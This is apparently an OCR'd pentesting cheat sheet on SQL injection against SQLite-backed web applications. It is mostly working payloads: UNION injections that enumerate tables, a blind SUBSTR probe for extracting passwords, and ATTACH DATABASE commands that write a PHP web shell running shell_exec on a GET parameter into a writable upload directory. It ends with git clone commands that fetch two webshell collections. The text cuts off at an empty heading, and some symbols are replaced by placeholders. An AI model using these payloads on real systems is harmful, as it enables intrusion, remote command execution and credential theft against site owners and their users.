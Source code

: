 ```
in presence of an SQLite database (I assume you already made some SQL injections with MySQL) :

xxx?id=-2 union select sqlite_version(), NULL, NULL--

Listing tables

It's simpler than working with MySQL... or just more verbose.

xxx?id=-2 union select name, NULL, NULL from sqlite_master--

And the best feature, we can get the structure of any table, directly in the SQL language :

sqlite> SELECT sql FROM sqlite_master WHERE name = 'demo';

CREATE TABLE demo (data TEXT)

Dropping a shell

Assume that we want to write the following PHP shell (the <pre> tag is here to have a correct output format when running 

commands like ls) :

<pre><?php echo shell_exec(*dollar-sign*_GET['c']); ?></pre>

sqlite> ATTACH DATABASE '/var/www/uploads/poney.php' as pwn;

sqlite> CREATE TABLE pwn.shell (code TEXT);

sqlite> INSERT INTO pwn.shell (code) VALUES ("<pre><?php echo shell_exec(*dollar-sign*_GET['c']); ?></pre>");

As usual, the only requirement is to have a writable directory on the server - uploads/ or cache/ can be useful. If they don't 

exist, you can still use google dorks (site:www.website.tld) or DirBuster.

Blind Injection

admin' AND SUBSTR(password, i, 1) = 'a'

```

### PHP webshell exploitation 

git clone https://github.com/b374k/b374k.git

git clone https://github.com/tennc/webshell



## GCC compiling
